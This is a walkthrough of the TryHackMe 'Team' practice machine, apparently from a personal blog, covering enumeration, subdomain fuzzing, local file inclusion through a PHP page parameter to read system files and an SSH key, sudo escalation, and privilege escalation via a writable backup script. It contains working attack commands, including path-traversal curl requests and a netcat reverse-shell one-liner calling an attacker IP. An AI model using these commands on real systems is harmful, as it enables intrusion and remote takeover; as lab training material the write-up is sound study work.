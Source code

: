 ```yaml
---
title: Walkthrough - Team
published: true
---
```


Security, Boot2Root, Enumeration, Misconfiguration. boot2root machine

[https://tryhackme.com/room/teamcw](https://tryhackme.com/room/teamcw)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.193.39 -vvv``

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

- ``sudo nmap -sV -sT -sC -p21,22,80 10.10.193.39``

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the port 80 apache httpd and viewing the source code we find ``Apache2 Ubuntu Default Page: It works! If you see this add 'team.thm' to your hosts!`` add to ``/etc/hosts`` and view.

- ``gobuster dir -u http://team.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --no-error -t 100 -x txt,php``

- ``robots.txt`` gives us dale.
- we also find scripts.txt in /scripts/ we find in our goboster scan
- which leads us to ``http://team.thm/scripts/script.old``

```
#!/bin/bash
read -p "Enter Username: " ftpuser
read -sp "Enter Username Password: " T3@m$h@r3
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit
```
 
- inside the ftp

```
Dale
        I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles 
```


- there is a hint that is telling us to look for a "dev" site that is under construction. 
- I had to use wfuzz for this as gobuster dns scans never returned any results. ``wfuzz -c --hw 977 -u http://team.thm -H "Host: FUZZ.team.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt``

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload            
=====================================================================

000000001:   200        89 L     220 W      2966 Ch     "www"              
000000019:   200        9 L      20 W       187 Ch      "dev"              
000000085:   200        9 L      20 W       187 Ch      "www.dev"          
000000689:   400        12 L     53 W       422 Ch      "gc._msdcs"    
```

- add ``dev.team.thm`` to the ``/etc/hosts`` file in order to view the dev site that is being refrenced.
-  we can access files here with ../ checking ``curl -s http://dev.team.thm/script.php?page=../../../etc/passwd``
- so we have 2 users dale and gyles. lets see if we can get rsa keys

- ``curl -s http://dev.team.thm/script.php?page=php://filter/convert.base64-encode/resource=script.php``
- ``curl -s http://dev.team.thm/script.php?page=../../../etc/group``

and finally we find the ssh key after trying literally everywhere

- ``curl -s http://dev.team.thm/script.php?page=../../../etc/ssh/sshd_config``
- this ssh key has no password so ``chmod 400 dale.rsa`` and ssh in

* * * 

## What is the user flag?

- ``cat user.txt``

* * * 

## What is the root flag?

- ``sudo -l``

```
User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

- we can ``sudo -u gyles /home/gyles/admin_checks``
- and move to gyles by using ``/bin/sh`` 
- upgrade the terminal with ``python3 -c 'import pty;pty.spawn("/bin/bash")'``
- ``for d in `echo $PATH | tr ":" "\n"`; do find $d -name "*.sh" 2>/dev/null; done``

```
You can write script: /usr/local/bin/main_backup.sh
```

- ``echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6666 >/tmp/f" >> /usr/local/bin/main_backup.sh``

![0xskar](/assets/team01.png)

* * * 

